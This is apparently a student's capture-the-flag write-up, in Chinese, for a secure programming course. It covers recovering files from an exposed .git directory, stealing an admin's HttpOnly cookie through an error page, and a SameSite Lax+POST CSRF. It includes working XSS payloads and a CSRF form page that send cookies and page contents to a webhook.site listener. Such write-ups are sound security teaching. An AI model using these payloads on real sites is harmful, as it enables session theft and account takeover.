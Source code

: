 ###### tags: `程式安全`
# Secure Programming HW4 Writeup
## The Stupid Content Tracker
### 解法：
題目中給了一個.git的連結，根據上課內容，可以利用工具把裡面檔案跟source code還原出來
使用課程給的工具GitHack撈出檔案，並進入admin_portal_non_production資料夾查看
![](https://i.imgur.com/i3xyfgx.png)
查看index.php得知只要進入這個網站就可以看到FLAG了
```php=
<?php

echo getenv("FLAG");

?>
```
但是網站被.htpasswd給擋住了
![](https://i.imgur.com/oe6XDVT.png)
爬了一下文，從下面的網站發現Git_Extract可以撈出更多東西
https://www.jianshu.com/p/0ea09975169d
成功撈出.htpsswd檔案
![](https://i.imgur.com/nENUZg7.png)
利用.htpasswd裡面的帳號密碼成功登入index.php並取得flag
![](https://i.imgur.com/tUpkgVu.png)
flag如下：
![](https://i.imgur.com/Nse29mW.png)
## Zero Note Revenge
### 解法：
這次admin的cookie被加上HttpOnly，沒辦法直接用document.cookie得到
沒什麼想法就照著Hint隨便access一個abc的Note，結果cookie竟然出現在Error message裡面(笑
![](https://i.imgur.com/7stX01r.png)
由於request包含的cookie會顯示在錯誤訊息裡面，我們只要得到admin噴的錯誤訊息就好
那現在的問題是要怎麼讓admin去瀏覽一個不存在的note abc的同時，又讓他把資訊送給我們監聽的網站
我想到的解法是用兩層的fetch完成這兩個操作

先來思考怎麼拿到Error message
一開始想到的是document.body，但是測試了半天突然想到document.body要在不存在的頁面才有用，重導向過去的同時，你給admin看的note後面的script也失效了
後來發現用GET不就會拿到網頁內容了，這個可以靠fetch做到
爬文爬了半天終於找到正確的用法如下面的code
這份code會把response的訊息印在console上，測試完其中的確包含Error message
```javascript=
fetch("http://edu-ctf.csie.org:30010/note/abc")
    .then(res => res.text())
    .then(console.log)
```
第二個fetch上課教過了，把Error message的內容經過btoa encode之後放在你監聽的網址的GET的參數部份，在request中就可以得到Error message
```javascript=
fetch('https://webhook.site/e290d08c-d18f-4060-abab-3c89c7c19c79/?' + btoa(Error_message)) 
```
那關鍵是怎麼把這兩個fetch串起來，從第一個fetch中的console.log沒放參數來看，第二個then可以順利取得上一個then的值，所以直接寫fetch就可以拿到值
但問題是我們還要塞自己的網址跟btoa的function，就沒法這樣寫
查了半天看到fetch的資料也可以寫function，於是就把res變成function的input parameter，然後塞進第二個fetch即可
最後的nested fetch如下：
```javascript=
fetch("http://edu-ctf.csie.org:30010/note/abc")
    .then(res => res.text())
    .then(function(data){
        fetch('https://webhook.site/e290d08c-d18f-4060-abab-3c89c7c19c79/?' + btoa(data)) 
    })
```
接下來把上面的javascript包進script tag當成note的內容上傳
```htmlembedded=
<script>
fetch("http://edu-ctf.csie.org:30010/note/abc")
    .then(res => res.text())
    .then(function(data){
        fetch('https://webhook.site/e290d08c-d18f-4060-abab-3c89c7c19c79/?' + btoa(data)) 
    })
</script>
```
先點進自己的note確定網站有收到request，然後再用Report to admin讓admin去看我們的note
查看收到的request
![](https://i.imgur.com/zwMAdwz.png)
接著做base64 decode取得原本的內容，就會發現叫做secret裡面有塞FLAG
![](https://i.imgur.com/NHG2w2K.png)

flag如下：
>FLAG{Oh_I_f0rg0t_To_disAble_The_deBug_PagE}
## Zero Meme
首先把題目給的文章看完，大致上的意思就是cookie預設是Lax，只能使用top-level的GET Method才能在跨域請求攜帶，而想設成None要加上Secure的標籤，變成httpOnly

接著瀏覽題目中的提示，看到Lax+POST這個名詞，上網爬文從以下網站看到相關描述
https://medium.com/@renwa/bypass-samesite-cookies-default-to-lax-and-get-csrf-343ba09b9f2b
Lax+POST就是當cookie在兩分鐘內剛被刷新的時候，在top-level使用POST請求送出的cookie會視為None，也就是不受Lax的限制，可以完成CSRF

所以要做的事有兩件
1.刷新cookie
2.攜帶cookie送出POST請求完成CSRF並取得admin的cookie(題目有講flag在admin的cookie裡面）
第一件事題目已經幫忙做完了，admin每次點擊你傳的連結都會重新登入，讓cookie保持在兩分鐘內刷新過的狀態
那接下來需要研究這個網站有哪些POST的行為
首先是帳號密碼登入的界面，但是因為登入只會覆蓋掉cookie，對我們的CSRF沒有幫助
![](https://i.imgur.com/JqnrOLz.png)
另外兩種POST是登入後頁面的上傳Meme到你的頁面上跟上傳連結給admin，那我們先試試這兩種POST可以做到什麼事
![](https://i.imgur.com/nZqicyj.png)
首先測試上傳Meme的表單裡面可不可以塞入XSS的腳本
先使用下面的payload測試，成功塞入確定可以使用XSS
```javascript=
https://dog"> <script>alert(1)</script>
```
![](https://i.imgur.com/eKwX6wk.png)

那上傳給admin的連結也偷塞fetch看看會不會收到請求，很明顯並沒有，如果成功了跟Lab差在哪裡XD
```javascript=
https://dogs.jpg"> <script>fetch('https://webhook.site/e290d08c-d18f-4060-abab-3c89c7c19c79/?'+btoa(document.cookie))</script>
```
統整一下思路，想完成POST的CSRF應該上傳一個自己可以控制內容的網站連結給admin，網站裡面塞入包含偷cookie的XSS的POST請求，而admin點擊你的連結後，就會上傳XSS到admin的頁面偷走他的cookie
那為了有自己的domain，我去申請了Github student pack並使用name.com取得了johnhuang.codes這個domain name
之後在網站放入XSS的腳本，利用html的form來複製input跟題目網站一樣的表單，並在intro的input裡面放入LAB使用的fetch腳本，將cookie傳到自己監聽的網站
網站內容如下：
```htmlembedded=
<form style="display:none" name=csrf id="dog_form" method='post' 
      action="https://edu-ctf.csie.org:44303/me">
  <input type="text" name="intro" id="dog">

</form>

<script>
  var evil_value = "http://dog.com";
  evil_value += "\">".toString().replace(/^.+?\*|\\(?=\/)|\*.+?$/gi, "");   
  evil_value += "<script>fetch('https://webhook.site/e290d08c-d18f-4060-abab-3c89c7c19c79/?'+btoa(document.cookie))";
  evil_value += "<\/script>".toString().replace(/^.+?\*|\\(?=\/)|\*.+?$/gi, "");  
  document.getElementById("dog").value = evil_value;
  document.getElementById("dog_form").submit();
</script>
```
接著把網站網址上傳給admin，並到自己監聽的網站查看
![](https://i.imgur.com/jyJfKSF.png)

把cookie做base64 decode即可取得flag
![](https://i.imgur.com/AYVtx8m.png)

flag如下：
>FLAG{Will_samesite_cookies_by_default_puts_the_final_nail_in_the_CSRF_coffin?}






